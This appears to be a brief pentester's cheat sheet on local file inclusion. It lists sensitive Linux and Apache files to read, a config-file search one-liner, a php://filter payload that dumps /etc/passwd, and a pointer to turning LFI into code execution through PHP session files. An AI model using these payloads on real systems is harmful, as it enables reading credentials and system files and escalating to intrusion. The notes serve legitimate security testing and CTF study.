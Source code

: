 # LFI

usually happens when you have dynamic content based on a parameter

{% hint style="info" %}
think about where and how you could write files to disk which can give you RCE

* session file
* there is almost always other services / features on the box to help with file write on disk
* RFI
{% endhint %}

## common files

```
/etc/knockd.conf
/etc/default/knockd
/etc/issue
/etc/motd
/etc/group
/etc/passwd
/var/www/html/.htaccess
/etc/httpd/logs/acces_log
/etc/httpd/logs/error_log
/var/www/logs/access_log
/var/www/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/var/log/apache/access_log
/var/log/apache2/access_log
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/access_log
/var/www/html/db.php
/var/www/html/db/db.php
/var/www/html/config.php
```

## user home directory and root

```
bash_history
.mysql_history
.my.cnf
.profile
```

## configuration files

`find / -type f 2>/dev/null | grep -i conf` db/db.php db.php session.php config.php mysql.conf

## common things during LFI

?page=php://filter/convert.base64-encode/resource=/etc/passwd User-Agent: Mozilla/5.0 like Gecko



LFI + php session file injection => RCE => [https://0xdf.gitlab.io/2020/03/28/htb-sniper.html](https://0xdf.gitlab.io/2020/03/28/htb-sniper.html)
